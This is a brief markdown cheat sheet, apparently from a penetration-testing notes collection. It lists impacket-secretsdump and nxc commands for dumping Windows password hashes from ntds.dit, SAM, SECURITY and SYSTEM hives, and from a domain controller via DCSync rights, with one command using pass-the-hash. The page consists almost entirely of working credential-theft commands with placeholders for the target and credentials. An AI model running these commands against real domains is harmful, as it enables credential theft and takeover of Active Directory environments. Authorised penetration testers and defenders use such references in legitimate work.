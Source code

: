 ```yaml
---
title: "secretsdump"
date: 2024-7-2
tags: ["secretsdump", "impacket", "active directory", "ad", "domain controller", "Windows", "ntds.dit", "hive", "hashes", "nxc"]
---
```


---
### With ntds.dit and SYSTEM hive

```bash
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

### With SAM, SYSTEM and SECURITY Hives

```bash
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

### With dcsync right

#### impacket-secretsdump

```bash
impacket-secretsdump <USER>:<PASSWORD>@<TARGET>
```

#### nxc

```bash
nxc smb -dc-ip <DC> -u <USER> -H <HASH> --ntds
```

<br>
